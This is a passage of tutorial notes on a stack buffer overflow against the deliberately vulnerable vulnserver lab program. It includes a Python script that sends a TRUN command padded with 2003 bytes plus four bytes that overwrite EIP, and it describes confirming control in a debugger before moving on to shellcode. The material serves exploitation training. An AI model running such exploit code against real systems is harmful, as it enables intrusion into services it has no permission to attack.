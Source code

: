 - So now we are going to try to overwrite the EIP
- So in the previous section we discovered that the offset itself is 2003 bytes.
- This means that that there's 2003 bytes before you get to EIP and the EIP itself is 4 bytes long.
- Now get your vulnserver and immunity debugger running and create fuzz3.py 

	```
	#!/usr/bin/python3
	import sys, socket
	shellcode = "A"*2003 + "B"*4
	
	
	try:
	        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	        s.connect(('172.18.176.193',9999))
			payload= "TRUN /.:/" + shellcode
	        s.send((payload.encode()))
	        s.close()
	
	except:
	        print ("error Connecing to server")
	        sys.exit()
```
```

- Now here we're sending 2003 A's because that's where your EIP starts. So by 2004 starts EIP.
- We're sending a bunch of A's, but we don't want to overwrite the EIP with A's and we have no idea if we're correct or not.
- So A's hexcode is '41' and B's is '42'.
- So in theory we should be seeing a bunch of 424242.
- So let's run this against vulnserver and check it out.
- This should break the program and show access violation.
- So what happened here, EAX - Trun ran through, EBP - 41414141 came through, but EIP is 42424242. This means we control EIP now.
- Now all we got to do is some housekeeping and find some bad characters and generate shellcode to get root access.